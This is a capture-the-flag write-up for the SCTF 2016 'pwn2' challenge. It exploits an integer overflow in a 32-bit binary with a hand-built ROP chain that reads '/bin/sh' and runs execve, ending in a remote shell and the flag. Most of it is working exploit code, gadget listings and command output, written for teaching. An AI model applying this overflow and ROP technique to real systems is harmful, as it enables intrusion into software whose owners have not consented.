



# pwn2 - SCTF 2016

I solved this challenge during the ctf with @ret2libc but i never made a write up. So last week i had to talk about ROP with my teamate and i decided to write this!

First of all execute `file` command
```bash
$ file pwn2
pwn2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xbc536d4b730eca9af1733195bd75dc53486a0d54, not stripped
```

and `checksec` 
```bash
$ ./checksec --file pwn2
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	FORTIFY	Fortified Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No	0		2	pwn2
```

The vulnerability is trivial: a very basic integer overflow


So we can easily overflow the buffer (we used `socat`, so we connect with `nc` to the service)
```bash
$ nc localhost 2323
How many bytes do you want me to read? -1
Ok, sounds good. Give me 4294967295 bytes of data!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB                                      
You said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```

and see `dmesg`

```bash
$ dmesg
..
..
..
[ 1929.348357] pwn2[1876]: segfault at 42424242 ip 42424242 sp bfe9c8a0 error 14
```

Quite easy for the moment. The tricky part of the challenge is write a nice ROPchain. 
When we get control of EIP registers are (note that EAX and ECX depends on the length of our buffer, but for our solution it dosn't matter)


`ROPgadget`, please give us good news!
```bash
$ ROPgadget --binary pwn2
Gadgets information
============================================================
0x08048833 : adc al, 0x41 ; ret
0x08048430 : add al, 0x24 ; sub al, 0xa0 ; add al, 8 ; call eax
0x0804846d : add al, 0x24 ; sub al, 0xa0 ; add al, 8 ; call edx
0x0804846b : add al, 0xc7 ; add al, 0x24 ; sub al, 0xa0 ; add al, 8 ; call edx
0x08048498 : add al, 8 ; add ecx, ecx ; ret
0x08048434 : add al, 8 ; call eax
0x08048471 : add al, 8 ; call edx
0x08048418 : add al, 8 ; cmp eax, 6 ; ja 0x8048427 ; ret
0x080484d1 : add bl, 0x40 ; ret
0x08048358 : add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x0804852b : add byte ptr [eax], al ; leave ; ret
0x08048830 : add cl, byte ptr [eax + 0xe] ; adc al, 0x41 ; ret
0x0804852c : add cl, cl ; ret
0x080484f7 : add dword ptr [ecx + 0x558bf455], ecx ; or byte ptr [ecx], al ; ret 0xb60f
0x0804882c : add eax, 0x2300e4e ; dec eax ; push cs ; adc al, 0x41 ; ret
0x08048495 : add eax, 0x804a044 ; add ecx, ecx ; ret
0x080485f7 : add eax, 0x81fffffe ; ret
0x08048528 : add eax, edx ; mov byte ptr [eax], 0 ; leave ; ret
0x08048452 : add eax, edx ; sar eax, 1 ; jne 0x804845f ; ret
0x0804849a : add ecx, ecx ; ret
0x08048649 : add esp, 0x1c ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0804835a : add esp, 8 ; pop ebx ; ret
0x080484ba : and al, 0x10 ; lahf ; add al, 8 ; call eax
0x08048431 : and al, 0x2c ; mov al, byte ptr [0xd0ff0804] ; leave ; ret
0x0804846e : and al, 0x2c ; mov al, byte ptr [0xd2ff0804] ; leave ; ret
0x0804846a : and al, 4 ; mov dword ptr [esp], 0x804a02c ; call edx
0x08048340 : call 0x8048406
0x08048793 : call dword ptr [esi]
0x08048436 : call eax
0x08048473 : call edx
0x08048455 : clc ; jne 0x804845c ; ret
0x0804841b : clc ; push es ; ja 0x8048424 ; ret
0x0804841a : cmp eax, 6 ; ja 0x8048425 ; ret
0x08048831 : dec eax ; push cs ; adc al, 0x41 ; ret
0x080485ed : dec ecx ; ret
0x0804882d : dec esi ; push cs ; xor byte ptr [edx], al ; dec eax ; push cs ; adc al, 0x41 ; ret
0x08048648 : fild word ptr [ebx + 0x5e5b1cc4] ; pop edi ; pop ebp ; ret
0x0804833e : in al, dx ; or al, ch ; mov ebx, 0x81000000 ; ret
0x0804842d : in al, dx ; sbb bh, al ; add al, 0x24 ; sub al, 0xa0 ; add al, 8 ; call eax
0x080484cf : in eax, -0x33 ; add bl, 0x40 ; ret
0x080484d3 : inc eax ; ret
0x080484df : inc ebp ; ret
0x080484d5 : inc ebx ; ret
0x080484d7 : inc ecx ; ret
0x080484dd : inc edi ; ret
0x080484d9 : inc edx ; ret
0x080484db : inc esi ; ret
0x08048496 : inc esp ; mov al, byte ptr [0xc9010804] ; ret
0x080484d0 : int 0x80
0x0804841d : ja 0x8048422 ; ret
0x08048737 : jmp eax
0x08048456 : jne 0x804845b ; ret
0x08048647 : jne 0x8048631 ; add esp, 0x1c ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080484bc : lahf ; add al, 8 ; call eax
0x08048438 : leave ; ret
0x0804864a : les ebx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x0804835b : les ecx, ptr [eax] ; pop ebx ; ret
0x08048497 : mov al, byte ptr [0xc9010804] ; ret
0x08048433 : mov al, byte ptr [0xd0ff0804] ; leave ; ret
0x08048470 : mov al, byte ptr [0xd2ff0804] ; leave ; ret
0x08048417 : mov al, byte ptr [0xf8830804] ; push es ; ja 0x8048428 ; ret
0x08048494 : mov byte ptr [0x804a044], 1 ; leave ; ret
0x0804852a : mov byte ptr [eax], 0 ; leave ; ret
0x080484b8 : mov dword ptr [esp], 0x8049f10 ; call eax
0x0804842f : mov dword ptr [esp], 0x804a02c ; call eax
0x0804846c : mov dword ptr [esp], 0x804a02c ; call edx
0x080484ce : mov ebp, esp ; int 0x80
0x08048341 : mov ebx, 0x81000000 ; ret
0x080485b1 : mov ebx, 0x90fffffd ; leave ; ret
0x08048400 : mov ebx, dword ptr [esp] ; ret
0x08048525 : mov edx, dword ptr [ebp + 8] ; add eax, edx ; mov byte ptr [eax], 0 ; leave ; ret
0x080485b5 : nop ; leave ; ret
0x080483ff : nop ; mov ebx, dword ptr [esp] ; ret
0x080483fd : nop ; nop ; mov ebx, dword ptr [esp] ; ret
0x080483fb : nop ; nop ; nop ; mov ebx, dword ptr [esp] ; ret
0x08048658 : nop ; nop ; nop ; nop ; nop ; nop ; nop ; nop ; ret
0x08048659 : nop ; nop ; nop ; nop ; nop ; nop ; nop ; ret
0x0804865a : nop ; nop ; nop ; nop ; nop ; nop ; ret
0x0804865b : nop ; nop ; nop ; nop ; nop ; ret
0x0804865c : nop ; nop ; nop ; nop ; ret
0x0804865d : nop ; nop ; nop ; ret
0x0804865e : nop ; nop ; ret
0x0804865f : nop ; ret
0x0804833f : or al, ch ; mov ebx, 0x81000000 ; ret
0x080485af : or al, ch ; mov ebx, 0x90fffffd ; leave ; ret
0x08048435 : or bh, bh ; ror cl, 1 ; ret
0x08048472 : or bh, bh ; ror cl, cl ; ret
0x08048419 : or byte ptr [ebx + 0x17706f8], al ; ret
0x08048499 : or byte ptr [ecx], al ; leave ; ret
0x080484fd : or byte ptr [ecx], al ; ret 0xb60f
0x08048527 : or byte ptr [ecx], al ; rol dh, 1 ; add byte ptr [eax], al ; leave ; ret
0x08048451 : pop ds ; add eax, edx ; sar eax, 1 ; jne 0x8048460 ; ret
0x080484e1 : pop ebp ; ret
0x0804864c : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0804835d : pop ebx ; ret
0x0804864e : pop edi ; pop ebp ; ret
0x0804864d : pop esi ; pop edi ; pop ebp ; ret
0x08048832 : push cs ; adc al, 0x41 ; ret
0x0804882e : push cs ; xor byte ptr [edx], al ; dec eax ; push cs ; adc al, 0x41 ; ret
0x080484f6 : push eax ; add dword ptr [ecx + 0x558bf455], ecx ; or byte ptr [ecx], al ; ret 0xb60f
0x080484cd : push ebp ; mov ebp, esp ; int 0x80
0x080484fc : push ebp ; or byte ptr [ecx], al ; ret 0xb60f
0x08048526 : push ebp ; or byte ptr [ecx], al ; rol dh, 1 ; add byte ptr [eax], al ; leave ; ret
0x080485f5 : push ebx ; call 0x8048407
0x0804841c : push es ; ja 0x8048423 ; ret
0x080485f4 : push esi ; push ebx ; call 0x8048408
0x08048453 : rcl cl, 1 ; clc ; jne 0x804845e ; ret
0x08048346 : ret
0x080484ff : ret 0xb60f
0x0804844e : ret 0xeac1
0x08048529 : rol dh, 1 ; add byte ptr [eax], al ; leave ; ret
0x08048437 : ror cl, 1 ; ret
0x08048474 : ror cl, cl ; ret
0x08048454 : sar eax, 1 ; jne 0x804845d ; ret
0x08048401 : sbb al, 0x24 ; ret
0x0804864b : sbb al, 0x5b ; pop esi ; pop edi ; pop ebp ; ret
0x0804842e : sbb bh, al ; add al, 0x24 ; sub al, 0xa0 ; add al, 8 ; call eax
0x0804844f : shr edx, 0x1f ; add eax, edx ; sar eax, 1 ; jne 0x8048462 ; ret
0x08048432 : sub al, 0xa0 ; add al, 8 ; call eax
0x0804846f : sub al, 0xa0 ; add al, 8 ; call edx
0x08048416 : sub al, 0xa0 ; add al, 8 ; cmp eax, 6 ; ja 0x8048429 ; ret
0x0804833d : sub esp, 8 ; call 0x8048409
0x0804882f : xor byte ptr [edx], al ; dec eax ; push cs ; adc al, 0x41 ; ret

Unique gadgets found: 123
```

So we have some good gadgets like `inc eax ; ret` & company, also a `0x080484d0 : int 0x80`.
So our exploit consists in: 

1) Read "/bin/sh" with a system call `read` writing this string in BSS

2) execute execve("/bin/sh") system call

But this is not so easy: we have to set `EAX = 3` and `ECX = BSS address`: we have to look for a gadget that give us `EAX = 0`. With the gadgets that `ROPgadget` gives us it is impossible: so we have to look for gadgets manually. What about that? 



At `0x08048459` we have the same gadget but for `EDX` register. The address of BSS is 

```bash
$ readelf -t pwn2
There are 30 section headers, starting at offset 0x1184:
...
...
...
  [25] .bss
       NOBITS          0804a040 00102c 000008 00   0   0 32
       [00000003]: WRITE, ALLOC
...
...
```
so we have to put `0804a040` into `ECX` and this is tricky. 

What about overflow ECX with `0x0804849a : add ecx, ecx ; ret`? Yea that's good! Infact 
```bash
>>> n = 0x3c7
>>> for i in range(1,32):
...         n = n*2
...         print hex(n)
... 
0x78e
0xf1c
0x1e38
0x3c70
0x78e0
0xf1c0
0x1e380
0x3c700
0x78e00
0xf1c00
0x1e3800
0x3c7000
0x78e000
0xf1c000
0x1e38000
0x3c70000
0x78e0000
0xf1c0000
0x1e380000
0x3c700000
0x78e00000
0xf1c00000L
0x1e3800000L
0x3c7000000L
0x78e000000L
0xf1c000000L
0x1e38000000L
0x3c70000000L
0x78e0000000L
0xf1c0000000L
0x1e380000000L
```
it work! And we can put `0x0804a040` into ECX with `0x0804849a : add ecx, ecx ; ret` and `0x080484d7 : inc ecx ; ret` gadgets: suppose we have ECX = 0x2, what about this python script now?

```python
n = 0x804a040
while n > 2:
        if n % 2 == 0:
                print "add %ecx, %ecx ---> 0x804849a; n = " + str(n) + "( " + hex(n) +" )"
                n = n/2
        else:

                print "inc %ecx ---> 0x080484d7; n = " + str(n) + "( " + hex(n) +" )"
                n = n-1
print "n = " + str(n)
```
and execute that shit
```bash
$ python printAddrBSS.py 
add %ecx, %ecx ---> 0x804849a; n = 134520896( 0x804a040 )
add %ecx, %ecx ---> 0x804849a; n = 67260448( 0x4025020 )
add %ecx, %ecx ---> 0x804849a; n = 33630224( 0x2012810 )
add %ecx, %ecx ---> 0x804849a; n = 16815112( 0x1009408 )
add %ecx, %ecx ---> 0x804849a; n = 8407556( 0x804a04 )
add %ecx, %ecx ---> 0x804849a; n = 4203778( 0x402502 )
inc %ecx ---> 0x080484d7; n = 2101889( 0x201281 )
add %ecx, %ecx ---> 0x804849a; n = 2101888( 0x201280 )
add %ecx, %ecx ---> 0x804849a; n = 1050944( 0x100940 )
add %ecx, %ecx ---> 0x804849a; n = 525472( 0x804a0 )
add %ecx, %ecx ---> 0x804849a; n = 262736( 0x40250 )
add %ecx, %ecx ---> 0x804849a; n = 131368( 0x20128 )
add %ecx, %ecx ---> 0x804849a; n = 65684( 0x10094 )
add %ecx, %ecx ---> 0x804849a; n = 32842( 0x804a )
inc %ecx ---> 0x080484d7; n = 16421( 0x4025 )
add %ecx, %ecx ---> 0x804849a; n = 16420( 0x4024 )
add %ecx, %ecx ---> 0x804849a; n = 8210( 0x2012 )
inc %ecx ---> 0x080484d7; n = 4105( 0x1009 )
add %ecx, %ecx ---> 0x804849a; n = 4104( 0x1008 )
add %ecx, %ecx ---> 0x804849a; n = 2052( 0x804 )
add %ecx, %ecx ---> 0x804849a; n = 1026( 0x402 )
inc %ecx ---> 0x080484d7; n = 513( 0x201 )
add %ecx, %ecx ---> 0x804849a; n = 512( 0x200 )
add %ecx, %ecx ---> 0x804849a; n = 256( 0x100 )
add %ecx, %ecx ---> 0x804849a; n = 128( 0x80 )
add %ecx, %ecx ---> 0x804849a; n = 64( 0x40 )
add %ecx, %ecx ---> 0x804849a; n = 32( 0x20 )
add %ecx, %ecx ---> 0x804849a; n = 16( 0x10 )
add %ecx, %ecx ---> 0x804849a; n = 8( 0x8 )
add %ecx, %ecx ---> 0x804849a; n = 4( 0x4 )
n = 2
```
so the ropchain that reads "/bin/sh" string is  
```python
def p32(x): return pack('<I', x)
data = ''
data += "A"*48
data +=  p32(0x0804841a) #clean eax
data +=  p32(0x080484d3)*3 #eax = 3 -> syscall read
data += p32(0x0804835d) #pop ebx
data += p32(0xffffffff) #to be popped to ebx
data += p32(0x080484d5) #set ebx = 0
data +=  p32(0x08048459) #clean edx
data += p32(0x080484d9)*7 #set edx=7
data += p32(0x0804849a)*70 #clean ecx with overflow
data += p32(0x080484d7)*2 #ecx=2
data += p32(0x0804849a)*8 #add ecx , ecx
data += p32(0x080484d7) #inc ECX
data += p32(0x0804849a)*3 
data += p32(0x080484d7) 
data += p32(0x0804849a)*2
data += p32(0x080484d7)
data += p32(0x0804849a)*7
data += p32(0x080484d7)
data += p32(0x0804849a)*6
data += p32(0x080484d0) #int 80
```

and the second part is easier, just set `EAX = 11, EBX = BSS`:
```python
data +=  p32(0x08048459) #clean edx
data += p32(0x0804849a)*100 #reset ecx
data += p32(0x0804835d) #pop ebx
data += p32(0x080484d3)*4 #eax = 11
data += p32(0x080484d0) #int 80
data += '\n'
```
the full exploit is available [here](exploit.py)! 
```bash
$ python exploit.py problems2.2016q1.sctf.io 1338
How many bytes do you want me to read? 

You said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�ӄӄӄ]���ՄY�للللللل��������������������������������������������������������������������������������������������������������������������������������������������ׄׄ����������������ׄ������ׄ����ׄ��������������ׄ������������ЄY���������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������]�@�ӄӄӄӄЄ
/bin/sh
id
uid=1001(pwn2) gid=1001(pwn2) groups=1001(pwn2)
whoami
pwn2
cat flag.txt
sctf{r0p_70_th3_f1n1sh}
```
In conclusione it was a very nice ROP challenge!!
